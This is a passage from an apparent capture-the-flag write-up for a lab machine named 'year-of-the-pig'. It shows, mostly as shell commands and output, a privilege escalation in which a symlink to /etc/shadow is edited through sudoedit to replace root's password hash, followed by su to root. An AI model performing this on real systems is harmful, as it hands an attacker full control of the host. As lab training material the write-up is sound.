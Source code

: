 Switching back to `www-data`, we create a symbolic link, `/var/www/html/test2/config.php`, that links to `/etc/shadow`.
```console
www-data@year-of-the-pig:/var/www/html$ mkdir test2
mkdir test2
www-data@year-of-the-pig:/var/www/html$ cd test2
cd test2
www-data@year-of-the-pig:/var/www/html/test2$ ln -s /etc/shadow config.php
ln -s /etc/shadow config.php
```
And as `curtis`, we edit the symbolic link we just created and modify the password hash of root to the hash of a known password. We used `mkpasswd` to generate the hash.
```console
curtis@year-of-the-pig:/var/www/html$ sudoedit /var/www/html/test2/./config.php
```

And now we can change ourselves to `root` using our password. The last flag is in `root`'s home directory.
```console
curtis@year-of-the-pig:/var/www/html$ su root
Password: 
root@year-of-the-pig:/var/www/html# whoami
root
root@year-of-the-pig:/var/www/html# cd /root
root@year-of-the-pig:~# ls -la
total 36
drwx------  5 root root 4096 Aug 22  2020 .
drwxr-xr-x 22 root root 4096 Aug 16  2020 ..
lrwxrwxrwx  1 root root    9 Aug 16  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Aug 16  2020 .cache
drwx------  3 root root 4096 Aug 16  2020 .gnupg
drwxr-xr-x  3 root root 4096 Aug 21  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   38 Aug 22  2020 root.txt
-rw-r--r--  1 root root   42 Aug 16  2020 .vimrc
```
